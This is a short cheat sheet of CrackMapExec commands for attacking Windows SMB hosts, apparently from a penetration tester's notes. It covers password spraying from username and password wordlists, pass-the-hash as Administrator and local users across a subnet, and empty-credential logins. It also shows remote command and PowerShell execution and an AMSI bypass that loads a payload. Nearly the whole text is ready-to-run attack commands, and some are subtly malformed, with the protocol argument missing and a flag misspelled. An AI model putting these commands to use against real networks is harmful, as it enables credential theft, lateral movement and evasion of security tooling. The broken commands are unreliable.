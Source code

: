 #### Checking one login equal one password using wordlist

```
cme smb 192.168.1.101 -u user.txt -p password.txt --no-bruteforce --continue-on-succes
```

## Authentication

#### Checking Credentials Domain

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE'
```

#### Using Credentials

```
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT'
cme smb 192.168.1.0/24 -u UserNAme -H 'NTHASH'
cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
cme smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```

#### Checking Credentials Local

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --local-auth
cme smb 192.168.1.0/24 -u '' -p '' --local-auth
cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --local-auth
cme smb 192.168.1.0/24 -u UserNAme -H 'NTHASH' --local-auth
cme smb 192.168.1.0/24 -u localguy -H '13b29964cc2480b4ef454c59562e675c' --local-auth
cme smb 192.168.1.0/24 -u localguy -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth
```

## Remote Command Execution

#### Execute commands with -x

```
cme 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami
```

#### Execute PowerShell Scripts with -X

```
cme 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
```

#### Bypass AMSI

```
cme 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'  --amsi-bypass /path/payload
```
